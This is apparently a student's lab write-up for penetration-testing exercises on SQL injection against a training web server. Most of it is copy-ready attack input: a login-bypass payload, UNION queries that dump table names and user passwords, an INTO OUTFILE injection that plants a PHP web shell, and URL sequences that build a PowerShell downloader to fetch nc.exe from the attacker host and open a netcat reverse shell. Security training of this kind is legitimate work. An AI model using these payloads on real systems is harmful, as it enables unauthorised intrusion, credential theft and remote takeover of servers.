

13.4.1.1 - Exercises
1. Interact with the MySQL database and manually execute the commands as the
web server does as part of the authentication process. Understand the
vulnerability.
2. Utilize SQL injection to bypass the login process.
3. Understand why the username is reported like it is once the authentication
process is bypassed.
1.
Interacted with database and manually executed the commands to understand the vulnerability.

2.
Utilized SQL injection to by pass the login process by entering this in the username field:
any' or 1=1 limit 1;#

3. The username is reported like this because it is what was entered into the query after the first single quote for the username and was then terminated with the octothorp.
13.4.5.1 - Exercises
1. Enumerate the structure of the database using SQL injection.
2. Understand how and why you can pull data from your injected commands and
have it displayed on the screen.
3. Extract all users and associated passwords from the database.
1.
Database structure enumerated with this URL input:
http://10.11.10.124/comment.php?id=738%20union%20all%20select%201,2,3,4,table_name,6%20FROM%20information_schema.tables


2.
We can pull data from the injected commands and have it displayed on the screen because the input is not sanitized. The php code does not utilize sanitizing funtions to make sure only valid input is allowed.
3.
All users and passwords extracted with this URL input:
http://10.11.10.124/comment.php?id=738%20union%20select%201,2,name,4,password,6%20FROM%20users

13.4.6.1 - Exercises
1. Exploit the SQL injection along with the MySQL INTO OUTFILE function to
obtain code execution.
2. Turn the simple code execution into a full shell.
1.
Obtained code execution through backdoor.php file by using this in the URL:
http://10.11.10.124/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'
Then called the file in the URL: 10.11.10.124/backdoor.php?cmd=ipconfig

2.
Obtained full shell through entering this in URL:
http://10.11.10.124/backdoor.php?cmd=nc.exe -nv 10.11.0.187 443 -e cmd.exe
Really need to download nc.exe first. Use the same format as in exercise 13.5.1 #2 to create a wget.ps1 file, download nc.exe, and then enter the nc.exe -nv 10.11.0.187 443 -e cmd.exe command.

13.5.1 - Exercises
1. Use Tamper Data to cause SQL injection on the lang parameter.
2. Identify how far you can push this vulnerability. Can you obtain a full shell?
1.
SQL injection by replacing "en" with single quote in the LANG parameter.

2.
Full shell obtained by entering this in the LANG field in Tamper Data plugin. This input creates the php file on the computer. After that we can enter several URLs with commands to send nc.exe to the server and then execute the command for a reverse shell.
en' union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor2.php';#'
Then enter these URLs in sequence to create the wget.ps1 file:
http://10.11.10.124/backdoor2.php?cmd="echo $storageDir = $pwd > wget.ps1"
http://10.11.10.124/backdoor2.php?cmd="echo $webclient = New-Object System.Net.WebClient >>wget.ps1"
http://10.11.10.124/backdoor2.php?cmd="echo $url = "http://10.11.0.187/nc.exe" >>wget.ps1"
http://10.11.10.124/backdoor2.php?cmd="echo $file = "nc.exe" >>wget.ps1"
http://10.11.10.124/backdoor2.php?cmd="echo $webclient.DownloadFile($url,$file) >>wget.ps1"
Then enter this URL to execute the wget.ps1 file which downloads nc.exe:
http://10.11.10.124/backdoor2.php?cmd="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1"
Then enter this URL to send the reverse shell to my Kali machine:
http://10.11.10.124/backdoor2.php?cmd="C:\xampp\htdocs\nc.exe -nv 10.11.0.187 443 -e cmd.exe"